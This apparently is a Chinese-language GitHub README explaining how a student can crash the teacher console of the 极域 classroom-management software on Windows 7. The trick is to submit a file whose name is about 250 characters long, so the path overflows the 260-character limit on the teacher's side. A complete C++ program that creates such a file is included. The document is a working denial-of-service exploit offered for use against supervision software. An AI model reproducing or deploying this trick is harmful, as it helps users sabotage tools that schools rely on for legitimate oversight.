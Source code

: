 # 本思路适用windows7 系统因为好像windows10以后没有文件名限制了

----------


- 先说思路：因为windows 7的默认最长文件名长度为260，而这个长度，是带目录的长度，比如你放在C:\1111.txt的文件名长度应该是11，而你放在(桌面)C:\Users\Administrator\Desktop\1111.txt的文件名长度肯定是大于11的，而我们正好可以利用这个漏洞


> 如何利用这个漏洞？


老师端极域的文件默认接受路径肯定不是根目录(除非老师颠了，给了极域管理员并且手动调成了一个盘根目录)，但是我们本地文件创建可以在根目录,所以我们可以在C盘根目录运行使用底下的程序来创建一个文件名长度为250的文件，并且提交到老师那里

老师端的极域就会因为处理不了这么长的文件名而爆炸了
 



我应该是第一个知道这个思路的

2025年9月27日14:54:36 -zcygod


----------



```cpp
#include<bits/stdc++.h>
#include<windows.h>
using namespace std;
const int MAX_LENGTH=250;
int main(){
	string s="";
	srand(time(0));
	for(int i=1;i<=MAX_LENGTH;i++){
		s+=(rand()%10)+'0';
	}
	s+=".txt";
	string command="echo >"+s;
	system(command.c_str());
	return 0;
}
```
